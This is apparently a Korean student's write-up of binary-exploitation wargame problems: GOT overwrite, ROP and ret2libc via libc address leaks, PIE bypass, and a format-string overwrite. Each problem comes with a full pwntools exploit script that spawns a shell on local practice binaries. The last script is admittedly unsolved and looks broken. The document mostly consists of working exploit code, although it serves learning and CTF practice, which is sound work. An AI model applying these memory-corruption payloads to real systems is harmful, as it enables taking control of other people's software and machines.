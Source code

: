 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다. 가젯의 주소를 찾기 위해서 pie를 우회해야 하는데, libc의 offset을 이용하여서 가젯의 실제 주소도 찾을 수 잇다. 이후 가젯과 binsh, system_addr를 사용하여 payload를 작성하면 된다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc
rop = ROP(e)

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]
pop_rdi = libc_base + (r
op.find_gadget(['pop rdi', 'ret']))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))
log.info("pop rdi: %s"%hex(pop_rdi))


payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()

```




## problem 3-2

마찬가지로 ROP 문제이다. puts를 이용하여 puts 함수의 실제 주소를 구하고, 이를 바탕으로 system과 '/bin/sh'의 주소를 구한다. payload에 main함수의 주소를 추가하여 다시 반복하게 한 뒤에 pop_rdi, binsh, system_addr를 보내면 쉘을 얻을 수 있다.

```python

from pwn import *

p = process("./rop2")
e = ELF("./rop2")
libc = e.libc

puts_plt = 0x401060
puts_got = 0x404018
pop_rdi = 0x401283
main = 0x4011cf

p.recvuntil(b'buf:')

payload = b'A'*1024
payload += b'B'*0x8

payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendline(payload)

puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

log.info("libc base : %s"%hex(libc_base))


payload = b'A'*1024
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()


```



## problem 4

pie를 우회하는 문제이다. main addr에서 main의 offset을 빼서 pie base를 구한 뒤 win의 실제 주소를 구하고 그것을 ret에 덮어쓰면 된다.


```python

from pwn import *

p = process('./simple_pie_32')
e = ELF('./simple_pie_32')
libc = e.libc

p.recvuntil(b'at: 0x')
main_addr = int(p.recvline(), 16)
pie_base = main_addr - 0x122d
win_addr = pie_base + 0x1291

payload = b'A'*0x1c
payload += b'A'*0x4
payload += p32(win_addr)


p.sendline(payload)

p.interactive()

```



## problem 5

pie 기법을 우회하는 문제이다. vuln 함수의 실제 주소를 구하려면 fsb를 이용해서 return값을 찾을 수 있다고 생각했다. 4칸만큼 떨어진 곳의 주소를 받아온 뒤에 주소를 이용해여 win함수의 주소를 구하고 그것을 덮는 payload를 보내면 쉘을 얻을 수 있다.

```python

from pwn import *

p = process('./pie')
e = ELF('./pie')
libc = e.libc

payload = b"%[4]$p"

p.sendline(payload)
vuln_addr = u64(p.recvuntil(b'\x10')[-6:].ljust(8, b'\x00'))

pie_base = vuln_addr - 0x1210
win_addr = pie_base + 0x126f

payload = b'A'*0x10
payload += b'B'*0x8
payload += p64(win_addr)

p.sendline(payload)

p.interactive()


```



## problem 6

token의 값을 1로 변조해야 하는 문제이다.


```python

from pwn import *

p = process('./token')
e = ELF('./token')

token = e.symbols['token']

payload = b'A'*1024;
payload += b'B'*0x8;
payload += p64(token)
payload += '%{}c'.format(0x1024+1-4)
payload += '%2$hhn'

p.sendline(payload)

p.interactive()

```

fsb 버그 변조와 유사해 보여서 시도해 보았지만 풀지 못했다. ㅜㅜ




